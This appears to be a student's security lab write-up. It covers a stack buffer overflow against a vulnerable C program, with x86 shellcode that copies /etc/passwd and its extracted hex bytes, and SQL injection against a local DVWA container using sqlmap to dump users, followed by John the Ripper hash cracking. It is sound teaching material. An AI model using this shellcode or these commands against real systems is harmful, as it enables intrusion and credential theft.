 # Lab #1,22110058, Luong Minh Nhat, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**:
## 1. Complie asm program and C program to execuatable

Complie asm program
``` 
    nasm -g -f elf shell.asm 
    ld -m elf_i386 -o shell shell.o
```

![](./imgs/task1_1.png)

Complie C program
``` 
    gcc -g vulnerable.c -o vulnerable.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
![](./imgs/task1_2.png)
## 2. Prepairing for attacking
Get shell code from complied asm program
```
    for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
![](./imgs/task1_3.png)
The value that we got
```
\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80
```
78 bytes long

Use gdb to find redundant_code function address:
``` 
    gdb vulnerable -q
    disas redundant_code
```
![](./imgs/task1_4.png)

## 3. Stack frame
stack frame for main fucntion
![](./imgs/task1_5.png)
## 4. Attack

**Conclusion**: in main fucntion use unsafe function `strcpy`, that lead to attack buffer overflow 

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 


Set up
```
docker pull vulnerables/web-dvwa
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Open your browser and navigate to http://localhost. You should see the DVWA login page.
![](./imgs/task2_1.png)

Login with the default credentials:

Username: admin
Password: password
![](./imgs/task2_2.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit" --dbs

```
![](./imgs/task2_3.png)
**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
get tables
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa --tables
```
![](./imgs/task2_4.png)
get users
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa --dump

```
![](./imgs/task2_5.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
```
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

```
